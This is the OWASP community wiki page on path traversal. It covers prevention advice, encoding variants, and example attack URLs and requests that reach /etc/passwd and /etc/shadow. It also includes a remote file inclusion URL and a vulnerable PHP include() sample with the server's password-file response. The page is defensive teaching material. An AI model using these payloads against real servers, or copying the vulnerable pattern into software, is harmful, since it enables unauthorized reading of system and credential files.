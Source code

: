 ```yaml
---

layout: col-sidebar
title: Path Traversal
author: 
contributors: 
permalink: /attacks/Path_Traversal
tags: attack, Path Traversal
auto-migrated: 1

---
```


## Overview

A path traversal attack (also known as directory traversal) aims to
access files and directories that are stored outside the web root
folder. By manipulating variables that reference files with
“dot-dot-slash (../)” sequences and its variations or by using
absolute file paths, it may be possible to access arbitrary files and
directories stored on file system including application source code or
configuration and critical system files. It should be noted that access
to files is limited by system operational access control (such as in the
case of locked or in-use files on the Microsoft Windows operating
system).

This attack is also known as “dot-dot-slash”, “directory traversal”,
“directory climbing” and “backtracking”.

## Related Security Activities

### How to Avoid Path Traversal Vulnerabilities

All but the most simple web applications have to include local resources, such as images, themes, other scripts, and so on. Every time a resource or file is included by the application, there is a risk that an attacker may be able to include a file or remote resource you didn’t authorize.

#### How to identify if you are vulnerable

- Be sure you understand how the underlying operating system will process filenames handed off to it.
- Don't store sensitive configuration files inside the web root
- For Windows IIS servers, the web root should not be on the system disk, to prevent recursive traversal back to system directories.

#### How to protect yourself

- Prefer working without user input when using file system calls
- Use indexes rather than actual portions of file names when templating or using language files (ie value 5 from the user submission = Czechoslovakian, rather than expecting the user to return “Czechoslovakian”)
- Ensure the user cannot supply all parts of the path – surround it with your path code
- Validate the user’s input by only accepting known good – do not sanitize the data
- Use chrooted jails and code access policies to restrict where the files can be obtained or saved to
- If forced to use user input for file operations, normalize the input before using in file io API's, such as http://docs.oracle.com/javase/7/docs/api/java/net/URI.html#normalize().

### How to Test for Path Traversal Vulnerabilities

See the [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/) article on how to
[test for path traversal vulnerabilities](https://github.com/OWASP/wstg/blob/master/document/4_Web_Application_Security_Testing/4.6_Authorization_Testing/4.6.1_Testing_Directory_Traversal_File_Include_WSTG-AUTHZ-001.md).

## Description

### Request variations

Encoding and double encoding:

`%2e%2e%2f` represents `../`  
`%2e%2e/` represents `../`  
`..%2f` represents `../ `  
`%2e%2e%5c` represents `..\`  
`%2e%2e\` represents `..\ `  
`..%5c` represents `..\ `  
`%252e%252e%255c` represents `..\ `  
`..%255c` represents `..\`   
and so on.

#### Percent encoding (aka URL encoding)

Note that web containers perform one level of decoding on percent
encoded values from forms and URLs.

`..%c0%af` represents `../ `  
`..%c1%9c` represents `..\ `  

#### OS specific

UNIX

```
Root directory:  “ / “ 
Directory separator: “ / “
```

WINDOWS

```
Root directory: “  <partition letter> : \ “
Directory separator: “ / “ or “ \ ” 
Note that windows allows filenames to be followed by extra . \ / characters.
```

In many operating systems, null bytes `%00` can be injected to terminate the filename. For example, sending a parameter like:

`?file=secret.doc%00.pdf`

will result in the Java application seeing a string that ends with ".pdf" and the operating system will see a file that ends in ".doc". Attackers may use this trick to bypass validation routines.

## Examples

### Example 1

The following examples show how the application deals with the resources in use.

```
http://some_site.com.br/get-files.jsp?file=report.pdf
http://some_site.com.br/get-page.php?home=aaa.html 
http://some_site.com.br/some-page.asp?page=index.html
```

In these examples it’s possible to insert a malicious string as the
variable parameter to access files located outside the web publish
directory.

```
http://some_site.com.br/get-files?file=../../../../some dir/some file
http://some_site.com.br/../../../../some dir/some file
```

The following URLs show examples of \*NIX password file exploitation.

```
http://some_site.com.br/../../../../etc/shadow
http://some_site.com.br/get-files?file=/etc/passwd
```

Note: In a Windows system an attacker can navigate only in a partition
that locates web root while in the Linux he can navigate in the whole
disk.

### Example 2

It's also possible to include files and scripts located on external
website.

`http://some_site.com.br/some-page?page=http://other-site.com.br/other-page.htm/malicius-code.php`

### Example 3

These examples illustrate a case when an attacker made the server show
the CGI source code.

`http://vulnerable-page.org/cgi-bin/main.cgi?file=main.cgi`

### Example 4

This example was extracted from: Wikipedia - Directory Traversal

A typical example of vulnerable application code is:

```
<?php
$template = 'blue.php';
if ( is_set( $_COOKIE['TEMPLATE'] ) )
   $template = $_COOKIE['TEMPLATE'];
include ( "/home/users/phpguru/templates/" . $template );
?>
```

An attack against this system could be to send the following HTTP
request:

```
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

Generating a server response such as:

```
HTTP/1.0 200 OK
Content-Type: text/html
Server: Apache

root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh
daemon:*:1:1::/tmp:
phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh
```

The repeated `../` characters after `/home/users/phpguru/templates/` has
caused [include()](http://www.php.net/manual/en/function.include.php) to
traverse to the root directory, and then include the UNIX password file
`/etc/passwd.

UNIX `etc/passwd` is a common file used to demonstrate **directory
traversal**, as it is often used by crackers to try cracking the
passwords.

### Absolute Path Traversal

The following URLs may be vulnerable to this attack:

```
http://testsite.com/get.php?f=list
http://testsite.com/get.cgi?f=2
http://testsite.com/get.asp?f=test
```

An attacker can execute this attack like this:

```
http://testsite.com/get.php?f=/var/www/html/get.php
http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc
http://testsite.com/get.asp?f=/etc/passwd
```

When the web server returns information about errors in a web
application, it is much easier for the attacker to guess the correct
locations (e.g. path to the file with a source code, which then may be
displayed).

## Related [Attacks](https://owasp.org/www-community/attacks/)

- [Path Manipulation](https://wiki.owasp.org/index.php/Path_Traversal)
- [Relative Path Traversal](https://wiki.owasp.org/index.php/Path_Traversal)
- [Resource Injection](https://owasp.org/www-community/attacks/Resource_Injection)

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

- [:Category:Input Validation Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

- [:Category:Input Validation](:Category:Input_Validation "wikilink")

## References

http://cwe.mitre.org/data/definitions/22.html
http://www.webappsec.org/projects/threat/classes/path_traversal.shtml